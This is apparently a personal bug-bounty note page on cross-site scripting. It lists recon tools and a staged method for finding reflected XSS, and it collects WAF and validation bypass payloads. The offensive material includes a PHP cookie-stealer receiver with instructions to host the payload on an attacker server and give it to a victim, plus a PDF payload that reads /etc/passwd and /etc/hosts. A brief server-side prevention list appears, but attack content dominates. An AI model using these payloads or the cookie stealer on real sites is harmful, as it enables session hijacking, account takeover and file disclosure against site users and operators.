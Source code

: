 # XSS

Tags: Clinet Side
Multi-select: yashar

[https://github.com/jonaslejon/malicious-pdf](https://github.com/jonaslejon/malicious-pdf)

### tools:

- gau
- autoreapeter
- logger++
- paramspider
- paramminer

- wayback url
- waymore
- WAFW00F
- kxss
- dalfox

- ffuf
- xsshunter
- xsser

### what is xss?

XSS : we can inject custom javascripts code in HTML (script template)

we have three model : DOM - Reflected - Stored

Reflected: in reflected type we are looking for any text we interred in input, show in HTML or anywhere of site 
I mean everywhere like title - the hole body - also headers - cookies and sessions

### how to find a reflected XSS?

Stage 1 → Look for holes throughout the site using tools and search for suspicious links such as [www.ex.com/contect1?=query](http://www.ex.com/contect1?=query).

Tools: gau (get all urls), ffuf, wayback urls.

Stage 2 → Test the URL you found and see which URL reflects that query in HTML.

Tools: autorepeater and logger++ burpsuite extensions.

Auto repeater setting: response.body CONTAINS "blab".

Stage 3 → When you find out which URL is reflected, it's time to set your payload.

Tools: kxss, Dalfox, xsshunter, xsser.

Stage 4 → Find out the target using any prevention or WAF.

How? Set custom characters like >, ", / and observe the site's behavior.

Tools: WAFW00F.

Stage 5 → When you find out the site's behavior, it's time to create your payload and go for the exploit.

It's better to do it manually.

### Tricks:

- Sometimes, changing the position of the query can still exploit the payload: example.com[/?](http://bugdasht.ir/?o)p=query ⇒ example.com[/?query=p](http://bugdasht.ir/?query=p)
- You can customize the headers you want: sitemap → scan → scan type = audit selected items → scan configuration → select from library.
- Auto repeater setting: response.body CONTAINS "blab".

How to prevent XSS reflected:

1. Use HTML encoding.
2. Use URL encoding.
3. Sanitize inputs.
- ** These prevention methods must be server-side; anything else can easily be bypassed.
- look content parameter: to set paylaod

### payload:

its better you fuzz with polyglots payloads.

[https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

### XSS BYPASS

- Mixed Case

```
<Script>alert(document.cookie)</Script>
```

- Unclosed Tags

```
<svg onload="alert(1)"
```

- Uppercase Payloads

```jsx
<SVG ONLOAD=ALERT(1)>
```

- Encoded XSS

```jsx
(Encoded) %3Csvg%20onload%3Dalert(1)%3E
```

- JS Lowercased Input

```
<SCRİPT>alert(1)</SCRİPT>
```

- PHP Email Validation Bypass

```
<svg/onload=alert(1)>"@gmail.com
```

- PHP URL Validation Bypass

```
javascript://%250Aalert(1)
```

- Inside Comments Bypass

```jsx
<!--><svg onload=alert(1)-->
```

### now what to do with a post based xss?

in post based xss cuz there is no such impact so you must create a way to lead a special scenario so in report give so mush higher impact

like lead a CSRF scenario to Post XSS

e.x: if you PARAM tamper and change GET to POST method and this lead the payload to XSS that post based

so there is no impact 

now what if you create a form that's lead victim send request with POST to the payload?

### Cookies Stealers

the best scenario for hijacking client cookies and leads this scenario to account take over is stealing cookie.

the simplest cookie stealer code:

```jsx
<?php
$cookie = $_GET['txt'];
$file = fopen('cookie.txt', 'a');
fwrite($file, $cookie . "\n");
fclose($file);
?>
```

[https://github.com/TheWation/PythonCookieStealer](https://github.com/TheWation/PythonCookieStealer)

[https://github.com/TheWation/NodeJsCookieStealer](https://github.com/TheWation/NodeJsCookieStealer)

You must set a payload in your personal server and give it to the target.

Example: `<script url="personal-server-ip"></script>`.



### XSS to Exfiltrate Data from PDFs

you can actually use special XSS payloads in pdf file to read or Exploit RCE on web server:

example payload

```php
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};http://x.open(‘GET’,’file:///etc/hosts’);x.send();</script><script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};http://x.open(‘GET’,’file:///etc/passwd’);x.send();</script>
```

see the burpsuite section

[Burpsuite](https://www.notion.so/Burpsuite-ff905e4d4e974bcf8ffd4e45e872801d?pvs=21)

[https://github.com/luigigubello/PayloadsAllThePDFs/tree/main](https://github.com/luigigubello/PayloadsAllThePDFs/tree/main)